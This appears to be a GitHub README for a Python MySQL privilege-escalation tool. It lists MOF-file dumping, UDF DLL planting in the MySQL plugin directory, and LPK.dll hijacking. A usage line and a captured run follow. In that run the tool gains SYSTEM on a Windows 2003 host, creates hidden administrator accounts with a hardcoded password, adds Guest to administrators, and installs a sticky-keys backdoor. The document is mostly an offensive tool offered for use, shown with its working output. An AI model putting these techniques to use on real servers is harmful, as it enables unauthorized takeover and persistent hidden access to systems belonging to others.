 # python-promoting-privileges
1.自动导出mof文件，

2.自动判断mysql版本，根据版本不同导出UDF的DLL到不同目录，UDF提权

3.导出LPK.dll文件，劫持系统目录提权

4.写启动项有问题，已经注释掉 
#usage:
```python sec.py host port user pass```

#Response:
```
Last login: Wed Jul 6 17:13:31 on ttys001
BinghedeMac:~ BingheSec$ python /sec.py 192.168.1.10 3306 root root

  ===============================================================================
|                                                                               |
|                BingheSec Mysql Promote Privileges Tool                        |
|                                                                               |
  ===============================================================================
Usage as: sec.py host port user pass
Example: sec.py 192.168.1.6 3306 root 123456
Current connection: 192.168.1.10:3306/root/root
Mysql Version is 5.5.40
Mysql Version>5.0 , UDF dll can only dump to plugin dir!
Mysql RootPath : C:/Program Files/phpStudy/MySQL/
UDF DLL PATH : C:/Program Files/phpStudy/MySQL/lib/plugin/BingheSec.dll

UDf will make the user 'guest' active and add to admin with the pass 789456123+abc
The sql of Dumping AddUser And AddToAdmin MOF File has queried OK.
Press shift 5 times then press 1,2 at the same time to start the lpk UI,pass:binghesec
Mof and LPK will add users named BingheSec$/admin$ with password: 789456123+abc
Mof file only fit for windows2003 , please test it byourself!
Command Query Result:
-------------------------------------------------------------------------------

Microsoft Windows [版本 5.2.3790]
nt authority\system
命令成功完成。

命令成功完成。

命令成功完成。

别名 administrators
注释 管理员对计算机/域有不受限制的完全访问权

成员

-------------------------------------------------------------------------------

admin$
Administrator
BingheSec$
Guest
命令成功完成。
```

